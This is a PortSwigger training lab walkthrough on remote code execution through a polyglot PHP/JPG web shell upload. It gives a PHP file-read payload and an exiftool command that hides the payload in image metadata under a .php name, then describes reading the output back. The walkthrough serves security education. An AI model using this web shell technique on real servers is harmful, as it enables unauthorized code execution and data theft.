 # [Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

True combo:

1.  On your system, create a file called  `exploit.php`  containing a script for fetching the contents of Carlos's secret. For example:
    
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2.  Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3.  Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
    
    `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
    
    This adds your PHP payload to the image's  `Comment`  field, then saves the image with a  `.php`  extension.
    
4.  In the browser, upload the polyglot image as your avatar, then go back to your account page.
5.  In Burp's proxy history, find the  `GET /files/avatars/polyglot.php`  request. Use the message editor's search feature to find the  `START`  string somewhere within the binary image data in the response. Between this and the  `END`  string, you should see Carlos's secret, for example:
    
    `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`
6.  Submit the secret to solve the lab.

**Lab Solved**